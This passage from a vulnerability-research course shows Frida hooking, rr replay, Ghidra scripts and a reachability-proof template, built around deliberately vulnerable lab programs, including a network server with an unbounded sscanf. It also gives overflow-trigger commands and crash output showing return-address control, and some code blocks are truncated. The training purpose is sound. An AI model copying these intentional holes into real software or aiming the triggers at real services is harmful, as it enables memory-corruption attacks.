    Interceptor.attach(strcpyAddr, {
        onEnter: function(args) {
            this.dest = args[0];
            this.src = args[1];
            console.log(`\\n[SINK] strcpy called`);
            console.log(`    dest: ${this.dest}`);
            console.log(`    src:  ${this.src}`);

            // Check if source is our tainted input
            if (inputAddr && this.src.compare(inputAddr) >= 0 &&
                this.src.compare(inputAddr.add(inputSize)) <= 0) {
                console.log(`    [!] TAINTED DATA REACHING SINK!`);
                console.log(Thread.backtrace(this.context, Backtracer.ACCURATE)
                    .map(DebugSymbol.fromAddress).join('\\n'));
            }
        }
    });
    console.log(`[+] Hooked strcpy at ${strcpyAddr}`);
}

// Hook free for UAF tracking
var freeAddr = libc.findExportByName("free");
if (freeAddr) {
    Interceptor.attach(freeAddr, {
        onEnter: function(args) {
            console.log(`\\n[FREE] free(${args[0]})`);
            taintedAddrs.push(args[0].toString());
        }
    });
    console.log(`[+] Hooked free at ${freeAddr}`);
}

// Hook malloc to track allocations
var mallocAddr = libc.findExportByName("malloc");
if (mallocAddr) {
    Interceptor.attach(mallocAddr, {
        onEnter: function(args) {
            this.size = args[0].toInt32();
        },
        onLeave: function(retval) {
            console.log(`[ALLOC] malloc(${this.size}) = ${retval}`);
        }
    });
    console.log(`[+] Hooked malloc at ${mallocAddr}`);
}

// Hook vulnerable functions by symbol name
["stack_overflow", "heap_overflow"].forEach(function(func) {
    var sym = DebugSymbol.fromName(func);
    if (!sym.address.isNull()) {
        Interceptor.attach(sym.address, {
            onEnter: function(args) {
                console.log(`\\n[VULN] Entering ${func}`);
                console.log(`    arg0 (input): ${args[0]}`);
                try {
                    console.log(`    value: ${args[0].readCString().substring(0, 50)}...`);
                } catch(e) {}
            }
        });
        console.log(`[+] Hooked ${func} at ${sym.address}`);
    }
});

// Hook main to capture argv
var mainSym = DebugSymbol.fromName("main");
if (!mainSym.address.isNull()) {
    Interceptor.attach(mainSym.address, {
        onEnter: function(args) {
            var argc = args[0].toInt32();
            var argv = args[1];
            console.log(`[*] main() called with ${argc} arguments`);

            if (argc >= 3) {
                // argv[2] is our input for test cases 1 and 2
                var inputPtr = argv.add(16).readPointer();  // argv[2]
                try {
                    var inputStr = inputPtr.readCString();
                    inputAddr = inputPtr;
                    inputSize = inputStr.length;
                    console.log(`[INPUT] Captured input at ${inputPtr}: ${inputStr.substring(0, 50)}...`);
                    console.log(`[INPUT] Size: ${inputSize} bytes`);
                } catch(e) {}
            }
        }
    });
    console.log(`[+] Hooked main at ${mainSym.address}`);
}
"""

def on_message(message, data):
    if message['type'] == 'send':
        print(f"[Frida] {message['payload']}")
    elif message['type'] == 'error':
        print(f"[Error] {message['stack']}")

def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <test_case> [input]")
        print(f"Example: {sys.argv[0]} 1 $(python3 -c \"print('A'*200)\")")
        sys.exit(1)

    os.chdir(os.path.expanduser("~/crash_analysis_lab"))

    # Build command line
    args = ["./vuln_no_protect"] + sys.argv[1:]

    print(f"[*] Spawning: {' '.join(args)}")

    device = frida.get_local_device()
    pid = device.spawn(args)
    session = device.attach(pid)

    script = session.create_script(js_code)
    script.on('message', on_message)
    script.load()

    print("[*] Script loaded, resuming process...")
    device.resume(pid)

    # Wait for process to finish (it will crash)
    try:
        session.on('detached', lambda reason: print(f"[*] Detached: {reason}"))
        input("[*] Press Enter to detach (or wait for crash)...")
    except KeyboardInterrupt:
        pass

    print("[*] Done")

if __name__ == "__main__":
    main()
```

**Running the Reachability Script**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# Trace stack overflow - shows input flowing to strcpy sink
python3 frida_reachability.py 1 $(python3 -c "print('A'*200)")

#     0x401208 vuln_no_protect!stack_overflow /home/dev/crash_analysis_lab/src/vulnerable_suite.c:10:5

### Record and Replay Debugging (rr)

**What Is rr?**:

- Records program execution deterministically
- Replays execution in GDB
- Allows reverse execution (step backward!)
- Perfect for analyzing non-deterministic bugs and tracing data flow

**Installation**:

```bash
cd ~/tuts/

# sudo apt remove rr
git clone --depth https://github.com/rr-debugger/rr.git
cd rr
mkdir build && cd build
sudo apt-get install ccache cmake make g++-multilib gdb lldb \
  pkg-config coreutils python3-pexpect manpages-dev git \
  ninja-build capnproto libcapnp-dev zlib1g-dev libzstd-dev
cmake -DPYTHON_EXECUTABLE=/usr/bin/python3 -DCMAKE_BUILD_TYPE=Release -Ddisable32bit=On ..
make -j$(nproc)
sudo make install

# In VMs, you may need to enable PMU passthrough; otherwise consider the [rr.soft fork](https://github.com/sidkshatriya/rr.soft) (much slower).

# If recording fails with perf_event permission issues:
cat /proc/sys/kernel/perf_event_paranoid

# If value is > 1, you may need to lower it (SYSTEM-WIDE, affects all users):
echo 1 | sudo tee /proc/sys/kernel/perf_event_paranoid

# Should show: "rr: Saving execution to trace directory..."
```

**Recording and Replaying Lab Binaries**:

```bash
cd ~/crash_analysis_lab

# Record stack overflow crash (test case 1)
rr record ./vuln_no_protect 1 $(python3 -c "print('A'*200)")

# RBP and return address are overwritten with 'A's (0x41)

(gdb) reverse-continue  # Go backward to previous signal/breakpoint

# Use reverse-step/reverse-next to actually step backward through execution

(gdb) reverse-step      # Step backward one instruction (into functions)
(gdb) reverse-next      # Step over backward (skip function internals)

# Note: First reverse-step from crash may stay at same point, keep stepping
```

**Tracing Stack Overflow with rr**:

```bash
cd ~/crash_analysis_lab

# Step 4: Set breakpoint and replay from start to catch corruption in action
(gdb) break stack_overflow
(gdb) run                # rr replays from beginning (back to _start)
(gdb) continue           # Hit the breakpoint

# Step 5: Now buffer is in scope - examine stack layout and save return address
(gdb) print &buffer

# Shows: Saved registers: rbp at 0x7fff9aeb3ad0, rip at 0x7fff9aeb3ad8

(gdb) set $retaddr = $rbp + 8     # Save return address location to variable
(gdb) print/x $retaddr

# Step 6: Break at strcpy call (avoids PLT resolution noise)
(gdb) break *0x401203             # Break right before strcpy@plt call
(gdb) continue

# Step 7: Set watchpoint on saved return address and continue into strcpy
(gdb) watch *(long*)$retaddr      # Use saved variable
(gdb) continue

# #2  0x4141414141414141 in ?? ()   <-- Return address already corrupted!
```

**Tracing Use-After-Free with rr**:

```bash
cd ~/crash_analysis_lab

# Replay and set watchpoint on heap allocation
rr replay

(gdb) break use_after_free
(gdb) continue

# Breakpoint hit at use_after_free()

(gdb) next  # Step to malloc
(gdb) next  # ptr = malloc(64)
(gdb) print ptr

# Record double-free (test case 4)
rr record ./vuln_no_protect 4

rr replay

(gdb) break free
(gdb) continue

#### rr vs TTD: When to Use Which

| Feature                | rr (Linux)                  | TTD (Windows)                 |
| ---------------------- | --------------------------- | ----------------------------- |
| **Platform**           | Linux only                  | Windows only                  |
| **Recording overhead** | ~5-10x                      | ~10-20x                       |
| **Trace size**         | Moderate                    | Large (GBs for long runs)     |
| **Query capability**   | Basic (GDB commands)        | Advanced (Data Model queries) |
| **Reverse execution**  | Full support                | Full support                  |
| **Multi-threaded**     | Yes (chaos mode for races)  | Yes                           |
| **Kernel debugging**   | No                          | No (user-mode only)           |
| **ARM64 support**      | Yes (v5.6+)                 | No (x64 only)                 |
| **IDE integration**    | VSCode (Midas), GDB         | WinDbg Preview                |
| **Best for**           | Linux apps, race conditions | Windows apps, complex queries |

**Decision Guide**:

- Analyzing Linux crash? → Use **rr**
- Analyzing Windows crash? → Use **TTD**
- Need to query "when did X change"? → TTD's data model is more powerful
- Hunting race conditions? → rr's chaos mode
- Limited resources/VM? → rr has lower overhead

**Don't use rr for**:

- Windows targets (use TTD instead)
- Kernel debugging (use KGDB/crash instead)
- Performance-sensitive recording (use Intel PT for lightweight tracing)
- GUI applications (high overhead on X11/Wayland)

### Taint Analysis Concepts

**What Is Taint Analysis?**:

- Mark input data as "tainted"
- Track taint propagation through execution
- Identify if crash involves tainted data

**Taint Sources** (where data comes from):

- Network input (recv, read from socket)
- File input (read, fread)
- User input (scanf, gets)
- Command-line arguments (argv)
- Environment variables (getenv)

**Taint Sinks** (where vulnerabilities occur):

- Memory operations (memcpy, strcpy)
- System calls (exec, system)
- Control flow (indirect jumps, function pointers)

**Manual Taint Tracking** (with GDB):

```bash

# read() → buffer → parse_header() → struct->field → vulnerable_function()
```

**Automated Taint Analysis** (Advanced):

Tools like Triton, libdft, or QEMU-based taint trackers can automate this,
but setup is complex. Manual analysis sufficient for most cases.

# to vulnerable function
```

**Scripting Call Graph** (IDA Python):

- as a task write a script to visualize or print call graph

### Ghidra Scripting for Crash Analysis

Ghidra's scripting capabilities are powerful for automating crash analysis tasks. Unlike IDA which requires a license, Ghidra is free and supports both Python (via Jython) and Java scripts.

**Basic Crash Context Script** (Python/Jython):

- fix the following script to make it work as you want

```python

# Run via: Ghidra → Script Manager → Run

from ghidra.program.model.symbol import RefType
from ghidra.program.model.block import BasicBlockModel

def analyze_crash_location(crash_addr_str):
    """Analyze the context around a crash address"""

    crash_addr = toAddr(crash_addr_str)
    func = getFunctionContaining(crash_addr)

    if func is None:
        print("[!] Crash address not in a function")
        return

    print("=" * 60)
    print(f"Crash Analysis: {crash_addr_str}")
    print("=" * 60)

    # Function info
    print(f"\n[+] Function: {func.getName()}")
    print(f"    Entry: {func.getEntryPoint()}")
    print(f"    Size: {func.getBody().getNumAddresses()} bytes")

    # Get instruction at crash
    instr = getInstructionAt(crash_addr)
    if instr:
        print(f"\n[+] Crash Instruction:")
        print(f"    {crash_addr}: {instr}")

    # Find references TO this location (who calls/jumps here?)
    print(f"\n[+] References to crash location:")
    refs_to = getReferencesTo(crash_addr)
    for ref in refs_to:
        print(f"    {ref.getFromAddress()} -> {crash_addr} ({ref.getReferenceType()})")

    # Find references FROM this location (what does it access?)
    print(f"\n[+] References from crash instruction:")
    refs_from = getReferencesFrom(crash_addr)
    for ref in refs_from:
        print(f"    {crash_addr} -> {ref.getToAddress()} ({ref.getReferenceType()})")

    # Get basic block containing crash
    bbm = BasicBlockModel(currentProgram)
    block = bbm.getCodeBlockAt(crash_addr, monitor)
    if block:
        print(f"\n[+] Basic Block: {block.getFirstStartAddress()} - {block.getMaxAddress()}")

# Usage: Set crash address from debugger
crash_address = askString("Crash Address", "Enter crash RIP (e.g., 0x401234):")
analyze_crash_location(crash_address)
```

**Find Similar Vulnerable Patterns**:

- fix this script to make it work as you want

```python

# find_similar_bugs.py - Find code patterns similar to crash site
from ghidra.program.model.listing import CodeUnitIterator

def find_unchecked_copies(crash_func_name):
    """Find potentially similar bugs by pattern matching"""

    dangerous_funcs = ["strcpy", "strcat", "sprintf", "gets", "memcpy"]
    results = []

    for func_name in dangerous_funcs:
        func_addr = getSymbol(func_name, None)
        if func_addr is None:
            continue

        # Find all calls to this dangerous function
        refs = getReferencesTo(func_addr.getAddress())
        for ref in refs:
            if ref.getReferenceType().isCall():
                caller_func = getFunctionContaining(ref.getFromAddress())
                if caller_func:
                    results.append({
                        'dangerous_func': func_name,
                        'caller': caller_func.getName(),
                        'call_site': ref.getFromAddress()
                    })

    print(f"\n[+] Found {len(results)} calls to dangerous functions:")
    for r in results:
        print(f"    {r['caller']} calls {r['dangerous_func']} at {r['call_site']}")

    return results

find_unchecked_copies("vulnerable_function")
```

**Trace Data Flow to Crash** (Headless Mode):

- fix this script to make it work correctly

```python

# analyzeHeadless /path/to/project ProjectName -import binary -postScript trace_to_crash.py "0x401234"

import sys
from ghidra.app.decompiler import DecompInterface

def trace_data_sources(crash_addr_str):
    """Trace where data at crash location originates"""

    crash_addr = toAddr(crash_addr_str)
    func = getFunctionContaining(crash_addr)

    # Initialize decompiler
    decomp = DecompInterface()
    decomp.openProgram(currentProgram)

    # Decompile function
    results = decomp.decompileFunction(func, 30, monitor)
    if results.decompileCompleted():
        high_func = results.getHighFunction()

        print(f"\n[+] Decompiled {func.getName()}:")
        print(results.getDecompiledFunction().getC())

        # Find variables at crash point
        # (Advanced: Use Ghidra's PCode analysis for data flow)

    decomp.dispose()

if len(sys.argv) > 1:
    trace_data_sources(sys.argv[1])
```

**Key Ghidra APIs for Crash Analysis**:

| Task                    | API                                                |
| ----------------------- | -------------------------------------------------- |
| Get function at address | `getFunctionContaining(addr)`                      |
| Get instruction         | `getInstructionAt(addr)`                           |
| Find references         | `getReferencesTo(addr)`, `getReferencesFrom(addr)` |
| Decompile               | `DecompInterface().decompileFunction()`            |
| Search memory           | `findBytes(startAddr, pattern)`                    |
| Get call graph          | `FunctionManager.getFunctions()`                   |
| Symbol lookup           | `getSymbol(name, namespace)`                       |

### Practical Exercise

**Task**: Trace HTTP request to crash in vulnerable web server

**Setup**:

```c
// ~/crash_analysis_lab/src/tiny.c
// Simple vulnerable HTTP server for crash analysis exercise
// Compile: gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer tiny.c -o tiny_asan

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void process_header(const char *header) {
    printf("[*] Processing header: %s\n", header);
    // Simulate some processing
    if (strlen(header) > 100) {
        printf("[!] Header suspiciously long: %zu bytes\n", strlen(header));
    }
}

void handle_request(int fd) {
    char buffer[512];
    char header[128];

    // Read HTTP request
    ssize_t n = read(fd, buffer, sizeof(buffer) - 1);
    if (n <= 0) {
        perror("read");
        return;
    }
    buffer[n] = '\0';

    printf("[*] Received %zd bytes\n", n);

    // Parse header (VULNERABLE)
    // sscanf with %s has no bounds check - will overflow header buffer!
    sscanf(buffer, "GET %s HTTP/1.1", header);  // No bounds check!

    // Process request
    process_header(header);
}

int main(int argc, char *argv[]) {
    printf("[*] Tiny HTTP Server (vulnerable demo)\n");
    printf("[*] Reading request from stdin...\n");

    // For lab purposes, read from stdin instead of socket
    handle_request(STDIN_FILENO);

    printf("[*] Done.\n");
    return 0;
}
```

You can treat this tiny HTTP server as a stand-in for the parser-style fuzz targets you worked with in Week 2 (for example, HTTP/JSON/image parsers) and for the kinds of functions you saw being fixed in Week 3 patch diffing (like `Ipv6pReassembleDatagram` in CVE-2022-34718, or the archive extraction logic in the 7-Zip case study). The goal is to bridge those earlier fuzzing and diffing exercises by following a single crashing request all the way from socket read to the vulnerable function and, ultimately, the patched code path. If you've completed the Week 3 capstone on CVE-2024-38063 or CVE-2024-1086, you can apply the same reachability analysis to trace network packets or syscall paths to the vulnerable kernel functions you identified in the diff.

**Step 1: Identify Crash**:

```bash

# gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer src/tiny.c -o tiny_asan
echo "[*] Generating crash input..."

# Create crash input file
{
    printf "GET "
    python3 -c "print('A' * 200, end='')"
    printf " HTTP/1.1\r\n\r\n"
} > crash_input

echo "[*] Created crash_input ($(wc -c < crash_input) bytes)"
echo "[*] To trigger crash:"
echo "    ./tiny_asan < crash_input"
```

**Step 2: Record Execution**:

```bash

# Or collect coverage
drrun -t drcov -- ./tiny_asan < crash_input
```

**Step 3: Trace Data Flow**:

```bash

# Continue to sscanf (the vulnerable call)
(gdb) next   # past if check
(gdb) next   # past buffer[n] = '\0'
(gdb) next   # past printf - now at sscanf line 34

# Switch to handle_request frame in backtrace
(gdb) info locals
```

**Step 4: Visualize Path**:

```bash

### Input Vector

- **Source**: Network socket (TCP port 8080)
- **Format**: HTTP GET request
- **Attacker Control**: Full control of request path

### Data Flow Path

1. `read()` receives HTTP request into 512-byte buffer
2. `sscanf()` parses request path into 128-byte header buffer
3. `process_header()` calls `strcpy()` without bounds check
4. Stack buffer overflow overwrites return address
5. Return from `process_header()` jumps to attacker-controlled address

### Proof

- DynamoRIO trace shows input → crash path
- rr replay confirms data flow
- 100% reproducible with crafted input
```

**Success Criteria**:

- Complete data flow traced from input to crash
- Critical functions identified
- Reachability confirmed
- Attack vector documented
- Exploitation prerequisites listed

### Key Takeaways

1. **Reachability determines exploitability**: Unreachable bugs aren't vulnerabilities
2. **Multiple approaches exist**: Coverage, tracing, static analysis all valuable
3. **Automation speeds analysis**: DynamoRIO + Lighthouse makes patterns obvious
4. **Replay debugging is powerful**: rr enables time-travel debugging
5. **Document the path**: Clear reachability proof essential for vulnerability reports

### Reachability Proof Standard Template

> [!IMPORTANT]
> **Every exploitability claim needs a proof.** Use this standardized template to document exactly how attacker-controlled input reaches the vulnerable code. This is your deliverable for Day 4.

## Target Information

- **Binary**: [name and version]
- **Platform**: [Linux x64 / Windows x64 / etc.]
- **Build**: [Debug/Release, with or without ASAN]

### Stage 1: Input Source

- **Entry Point**: [Function where input enters: read(), recv(), fgets(), etc.]
- **Data Type**: [Network packet / File / stdin / environment / argv]
- **Auth Required**: [Yes/No - if yes, what privileges?]
- **User Interaction**: [Required/Not required]

**Code Location**:

```c
// File: src/input.c:42
ssize_t n = read(fd, buffer, sizeof(buffer));  // <-- INPUT ENTERS HERE
```

### Stage 2: Parsing/Transformation Boundary

- **Parser Function**: [Function that first processes/validates input]
- **Validation Applied**: [None / Length check / Type check / etc.]
- **Transformation**: [Decode / Decompress / Convert / None]

**Code Location**:

```c
// File: src/parser.c:128
int len = parse_header(buffer, &header);  // <-- PARSING BOUNDARY
// No length validation before copy!
```

### Stage 3: Key Data Transformations

List each function that touches attacker data between input and sink:

| Step | Function        | File:Line    | Transformation | Attacker Control Preserved?      |
| ---- | --------------- | ------------ | -------------- | -------------------------------- |
| 1    | read()          | input.c:42   | Raw input      | Yes - full control               |
| 2    | parse_header()  | parser.c:128 | Extract fields | Yes - no sanitization            |
| 3    | process_field() | handler.c:89 | Copy to buffer | Yes - length attacker-controlled |

### Stage 4: Vulnerable Sink

- **Sink Function**: [memcpy / strcpy / free / indirect call / etc.]
- **Vulnerability Type**: [heap-overflow / stack-overflow / UAF / etc.]
- **Crash/Corruption Point**: [Exact instruction and address]

**Code Location**:

```c
// File: src/handler.c:95
memcpy(dest, src, attacker_len);  // <-- SINK: overflow here
```

### Dynamic Trace (from rr/Intel PT/DynamoRIO)

```
read() [input.c:42]
  └─→ parse_header() [parser.c:128]
        └─→ process_field() [handler.c:89]
              └─→ memcpy() [handler.c:95]  ← CRASH
```

### Coverage Visualization

- **DynamoRIO trace file**: `drcov.target.12345.log`
- **Lighthouse screenshot**: [Attach or describe highlighted path]
- **Unique crash blocks**: [List addresses only hit during crash]

### Watchpoint Evidence (from GDB/rr)

```text
Watchpoint 1: *(char*)0x7fff1234 (input buffer first byte)
  Hit at parse_header+0x42 (read access)
  Hit at process_field+0x15 (read access)
  Hit at memcpy+0x10 (read access) ← being copied

Hardware watchpoint 2: *(char*)0x7fff5678 (destination buffer)
  Hit at memcpy+0x10 (write access) ← OVERFLOW WRITE
```

### Blocking Factors

- [ ] Requires authenticated session
- [ ] Rate limiting in place
- [ ] Input validation at boundary
- [ ] Sandbox/isolation
- [ ] None identified

### Attack Complexity Rating

- [ ] **LOW**: Direct path, no prerequisites, reliable trigger
- [ ] **MEDIUM**: Requires specific conditions or timing
- [ ] **HIGH**: Complex prerequisites, race conditions, partial control

### Crash Command + Expected Output

```bash
./target < minimal_crash.bin
#=================================================================
#==12345==ERROR: AddressSanitizer: heap-buffer-overflow...
```

## Verdict

**REACHABILITY**: [ ] CONFIRMED [ ] PARTIAL [ ] NOT REACHABLE

**JUSTIFICATION**: [1-2 sentences summarizing why the verdict]

**CONFIDENCE**: [ ] HIGH (traced full path) [ ] MEDIUM (some gaps) [ ] LOW (static only)
````

#### Lab: Network-Reachable Crash Analysis

**Setup**: A vulnerable HTTP server with a heap overflow in header parsing.

```c
// ~/crash_analysis_lab/src/vuln_http_server.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define PORT 8888
#define BUFSIZE 1024

typedef struct {
    char method[16];
    char path[64];      // Too small for long paths!
    char version[16];
} http_request_t;

void parse_request(char* raw, http_request_t* req) {
    // BUG: No bounds checking on path!
    sscanf(raw, "%s %s %s", req->method, req->path, req->version);
}

void handle_client(int client_fd) {
    char buffer[BUFSIZE];
    http_request_t* req = malloc(sizeof(http_request_t));
    if (!req) {
        perror("malloc");
        return;
    }

    ssize_t n = read(client_fd, buffer, BUFSIZE - 1);
    if (n > 0) {
        buffer[n] = '\0';
        printf("[*] Received %zd bytes\n", n);
        parse_request(buffer, req);
        printf("[*] Request: %s %s %s\n", req->method, req->path, req->version);
    }
    free(req);
}

int main() {
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);
    if (server_fd < 0) {
        perror("socket");
        return 1;
    }

    struct sockaddr_in addr = {
        .sin_family = AF_INET,
        .sin_port = htons(PORT),
        .sin_addr.s_addr = INADDR_ANY
    };

    setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, &(int){1}, sizeof(int));

    if (bind(server_fd, (struct sockaddr*)&addr, sizeof(addr)) < 0) {
        perror("bind");
        return 1;
    }

    if (listen(server_fd, 1) < 0) {
        perror("listen");
        return 1;
    }

    printf("[*] Vulnerable HTTP Server listening on port %d...\n", PORT);

    while(1) {
        int client_fd = accept(server_fd, NULL, NULL);
        if (client_fd < 0) {
            perror("accept");
            continue;
        }
        handle_client(client_fd);
        close(client_fd);
    }
}
```

**Step 1: Build and Test**:

```bash
cd ~/crash_analysis_lab

# Compile with ASan
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer \
    src/vuln_http_server.c -o vuln_http_server_asan

# sscanf stops at whitespace, so we need one long token
python3 -c "print('A'*300 + '\r\n\r\n')" | nc localhost 8888

# Step through to see buffer after read()
(gdb) next
(gdb) next
(gdb) next
(gdb) next   # past read()

# Shows the malicious HTTP request
```

**Step 3: Fill Out Proof Template**:

Complete the Reachability Proof Template for this vulnerability:

1. **Input Source**: `read()` from network socket (TCP port 8888)
2. **Parsing Boundary**: `parse_request()` with `sscanf()`
3. **Sink**: `sscanf()` writing to undersized `req->path[64]`
4. **Data Flow**: `accept()` → `read()` → `parse_request()` → `sscanf()` → heap overflow
5. **Evidence**: rr trace, checkpoint/restart, ASan report showing heap-buffer-overflow

**Deliverable**: A completed Reachability Proof document following the template.

**Success Criteria**:

- All template sections filled in with evidence
- Dynamic trace shows complete path from socket to overflow
- Attack surface correctly assessed (remote, unauthenticated)
- PoC command that triggers crash remotely:
  ```bash
  python3 -c "print('A'*300 + '\r\n\r\n')" | nc localhost 8888
  ```

### Discussion Questions

1. How does attack surface (local vs remote) affect reachability assessment?
2. What are the limitations of coverage-based reachability analysis with DynamoRIO/Lighthouse?
3. How does rr's time-travel debugging change the approach to tracing input propagation compared to traditional forward-only debugging?
4. When might static call graph analysis miss actual execution paths?

## Day 5: Crash Deduplication and Corpus Minimization

- **Goal**: Learn to efficiently deduplicate crashes and minimize test cases for easier analysis.
- **Activities**:
  - _Reading_:
    - "Fuzzing for Software Security Testing and Quality Assurance" by Ari Takanen - Chapter 9: Fuzzing Case Studies
    - [AFL++ Corpus Minimization](https://github.com/AFLplusplus/AFLplusplus/blob/stable/docs/fuzzing_in_depth.md)
  - _Online Resources_:
    - [Test Case Reduction Strategies](https://lcamtuf.coredump.cx/afl/technical_details.txt)
    - [Delta Debugging Algorithm](https://www.st.cs.uni-saarland.de/papers/tse2002/tse2002.pdf)
  - _Tool Setup_:
    - afl-tmin (test case minimizer)
    - afl-cmin (corpus minimizer)
    - creduce / llvm-reduce (for source code)
  - _Exercise_:
    - Deduplicate and minimize crashes from vulnerable_suite
    - Reduce crash input to minimal reproducer

### Lab Setup: Building AFL-Instrumented Binary

For coverage-based deduplication and AFL tools (afl-tmin, afl-cmin), you need an AFL-instrumented build:

```bash
cd ~/crash_analysis_lab/src

# Build AFL-instrumented version (requires AFL++ installed)
afl-clang-fast -g -o ../vuln_afl vulnerable_suite.c

# [+] Captured 2 tuples (map size 26, highest value 1, total values 2) in '/dev/null'.
```

> [!NOTE] If you don't have AFL++ installed, you can skip the coverage-based methods and use stack-hash or CASR-based deduplication instead.

### Why Deduplication and Minimization Matter

**The Problem**:

- Fuzzing generates thousands of crashes
- Many are duplicates (same bug, different input)
- Large inputs make analysis difficult
- Need efficient prioritization

**Benefits of Deduplication**:

- Focus on unique bugs, not symptoms
- Reduce analysis time from days to hours
- Better resource allocation
- Clear bug count for tracking

**Benefits of Minimization**:

- Smaller inputs easier to understand
- Faster crash reproduction
- Clearer root cause identification
- Simpler exploit development

#### Method 1: Stack Trace Hashing

**Concept**: Hash the call stack to identify unique crashes

**Pros**:

- Fast and simple
- Deterministic
- No special tools needed

**Cons**:

- Different stacks can be same bug
- Non-deterministic bugs may vary
- Address randomization affects hashing

**Implementation**:

```bash
#!/bin/bash

# dedupe_by_stack.sh
cd ~/crash_analysis_lab

for crash in crashes/*; do
    # Get stack trace
    stack=$(gdb -batch \
        -ex "run < $crash" \
        -ex "bt" \
        -ex "quit" \
        ./vuln_no_protect 2>&1 | grep "^#")

    # Hash stack (ignore addresses)
    hash=$(echo "$stack" | \
        sed 's/0x[0-9a-f]\{8,16\}//g' | \
        md5sum | cut -d' ' -f1)

    # Create directory for this hash
    mkdir -p deduped/$hash

    # Copy first crash with this hash
    if [ ! -f deduped/$hash/crash ]; then
        cp $crash deduped/$hash/crash
        echo "$crash -> $hash"
    fi
done

echo "Unique crashes: $(ls -1 deduped/ | wc -l)"
```

#### Method 2: Coverage-Based Deduplication

**Concept**: Hash the code coverage path

**Pros**:

- More accurate than stack traces
- Captures execution flow
- Works with non-deterministic crashes

**Cons**:

- Requires instrumentation
- Slower than stack hashing
- May over-deduplicate

**Implementation**:

```bash
#!/bin/bash

# dedupe_by_coverage.sh
cd ~/crash_analysis_lab

mkdir -p deduped

for crash in crashes/*; do
    name=$(basename "$crash")

    # Get a stable coverage signature from afl-showmap output.
    # -q: quiet
    # -e: edges only (ignore hit counts)
    # -o: output file
    # -H: file that replaces @@ (file-input targets)
    # Note: Requires AFL-instrumented build (afl-clang-fast)
    afl-showmap -q -e -o "/tmp/${name}.cov" -H "$crash" -- ./vuln_afl @@ >/dev/null 2>&1 || true

    hash=$(md5sum "/tmp/${name}.cov" | cut -d' ' -f1)
    mkdir -p "deduped/$hash"

    if [ ! -f "deduped/$hash/crash" ]; then
        cp "$crash" "deduped/$hash/crash"
    fi
done
```

#### Method 3: CASR-Based Deduplication (Recommended)

**Concept**: Use CASR's semantic crash classification

**Pros**:

- Semantically meaningful (23 severity types)
- Built-in clustering algorithm
- Modern, actively maintained
- Considers crash type, location, and severity

**Cons**:

- Requires ASAN build for best results
- Some setup required

**Implementation**:

```bash
#!/bin/bash

# Generate CASR reports for each crash
for crash in crashes/*; do
    name=$(basename $crash)
    casr-san -o casrep/${name}.casrep -- ./vuln_asan < $crash 2>/dev/null
done

# Review clusters
echo "Unique crash clusters:"
for cluster in deduped/cl*; do
    count=$(ls -1 $cluster/*.casrep 2>/dev/null | wc -l)
    # Get representative crash type
    type=$(jq -r '.CrashSeverity.ShortDescription' $cluster/*.casrep 2>/dev/null | head -1)
    echo "  $(basename $cluster): $count crashes - $type"
done

#   clerr: 2 crashes - AbortSignal
```

> [!NOTE] The `clerr` cluster contains crashes that CASR couldn't fully classify
> (e.g., AbortSignal from ASAN reports without clear memory corruption).
> The DestAvNearNull clusters indicate potential NULL pointer dereferences.

**Alternative: Pwndbg-Based Analysis** (Interactive):

> [!WARNING] The crash files in this lab contain test numbers and inputs formatted for the ASAN build. For GDB analysis, you need to pass arguments directly rather than via stdin.

```bash
#!/bin/bash

# Generate overflow payloads
STACK_PAYLOAD=$(python3 -c "print('A'*100)")
HEAP_PAYLOAD=$(python3 -c "print('B'*60)")

echo "=== Stack Overflow Analysis ==="
gdb -batch \
    -ex "run 1 $STACK_PAYLOAD" \
    -ex "bt" \
    -ex "checksec" \
    -ex "quit" \
    ./vuln_no_protect

echo "=== Heap Overflow Analysis ==="
gdb -batch \
    -ex "run 2 $HEAP_PAYLOAD" \
    -ex "bt" \
    -ex "checksec" \
    -ex "quit" \
    ./vuln_no_protect

# Use ASAN build to detect: ./vuln_asan 2 "$HEAP_PAYLOAD"

echo "=== Use-After-Free Analysis ==="
gdb -batch \
    -ex "run 3" \
    -ex "bt" \
    -ex "checksec" \
    -ex "quit" \
    ./vuln_no_protect

echo "=== Double-Free Analysis ==="
gdb -batch \
    -ex "run 4" \
    -ex "bt" \
    -ex "checksec" \
    -ex "quit" \
    ./vuln_no_protect
```

**Expected Output (Stack Overflow)**:

```text
=== Stack Overflow Analysis ===
[*] Copying input to 64-byte buffer...
[*] Buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401225 in stack_overflow (input=0x7fffffffe491 'A' <repeats 100 times>) at vulnerable_suite.c:11
#0  0x0000000000401225 in stack_overflow (input=...) at vulnerable_suite.c:11
#1  0x4141414141414141 in ?? ()
#2  0x4141414141414141 in ?? ()
#3  0x4141414141414141 in ?? ()
Backtrace stopped: Cannot access memory at address 0x4141414141414149

File:     /home/dev/crash_analysis_lab/vuln_no_protect
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stack:      Executable
RWX:        Has RWX segments
```

> [!TIP] **Analysis Notes**:
>
> - Return address overwritten with `0x4141414141414141` ('AAAA...' in hex) = **RIP control achieved**
> - No stack canary + Executable stack + No PIE = **Highly exploitable**
> - The crash at `vulnerable_suite.c:11` indicates the function epilogue (`ret` instruction)

**Expected Output (Heap Overflow - No Crash)**:

```text
=== Heap Overflow Analysis ===
[*] Allocated 32 bytes at 0x4052a0
[*] Buffer: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[Inferior 1 (process 2116) exited normally]
No stack.
```

> [!WARNING] **Why No Crash?**
> Heap overflows often don't cause immediate crashes without sanitizers:
>
> - The overflow corrupts adjacent heap metadata/data **silently**
